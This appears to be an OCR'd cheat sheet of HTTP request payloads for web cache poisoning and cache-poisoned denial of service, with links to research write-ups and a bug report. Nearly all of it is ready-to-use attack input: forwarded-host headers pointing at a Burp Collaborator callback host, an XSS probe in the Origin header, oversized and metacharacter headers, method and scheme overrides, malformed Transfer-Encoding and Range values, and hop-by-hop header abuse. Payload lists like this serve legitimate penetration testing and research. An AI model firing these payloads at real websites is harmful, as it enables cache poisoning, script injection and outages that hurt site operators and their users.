 ```http
Host: www.company.com
User-Agent: Mozilla/5.0
X-Forwarded-Server: RandomString(10).id.burpcollaborator.net
-------------------------------------------------
GET /Endpoint-To-Proxy HTTP/1.1
Host: www.company.com
User-Agent: Mozilla/5.0
Origin: null
X-Forwarded-Host: RandomString(10).id.burpcollaborator.net
----------------------------------------------------
GET /Endpoint-To-Proxy HTTP/1.1
Host: www.company.com
User-Agent: Mozilla/5.0
Origin: '-alert(1)-'

->https://www.youtube.com/watch?v=bDxYWGxuVqE
------------------------------------------------
GET /Endpoint-To-Proxy HTTP/1.1
Host: www.company.com
User-Agent: Mozilla/5.0
X-Forwarded-Scheme: nothttps
X-Forwarded-Host: RandomString(10).id.burpcollaborator.net

-> https://www.youtube.com/watch?v=j2RrmNxJZ5c
--------------------------------------------------------
GET /Endpoint-To-Proxy HTTP/1.1
Host: www.company.com
User-Agent: Mozilla/5.0
X-Host: RandomString(10).id.burpcollaborator.net
--------------------------------------------------
X-Host: RandomString(10).id.burpcollaborator.net
------------------
X-Oversized-Header-1: xxxxx 20K xxxx
X-Oversized-Header-2: xxxxx 20K xxxx
---------------------------
X-Metachar-Header: \n
->  https://cpdos.org/
--------------------------------------------------
X-HTTP-Method-Override: PUT
- https://blog.appsecco.com/aws-ec2-imdsv2-versus-an-esoteric-http-method-8bc1b9616ae8
- https://cpdos.org/
----------------------
X-Forwarded-Port: 123
- https://portswigger.net/research/responsible-denial-of-service-with-web-cache-poisoning
- https://hackerone.com/reports/409370
----------------------------------
X-Forwarded-SSL: off
- https://portswigger.net/research/responsible-denial-of-service-with-web-cache-poisoning
---------------------
Max-Forwards: 0
------------------------------
zTransfer-Encoding: xxxx
--------------
Accept_Encoding: xxxx
-------------------
Range: bytes=cow
-----------------------
User-Agent: xxxx 20K xxxx
------------------------
Try To Inject Keep-Alive , Transfer-Encoding , Trailer , Upgrade , Proxy-Authorization , TE
Connection OR Proxy-Authenticate e.g. Connection: close, Cookie To Abuse Hop-By-Hop
Connection: close, Cookie
- https://nathandavison.com/blog/abusing-http-hop-by-hop-request-headers
```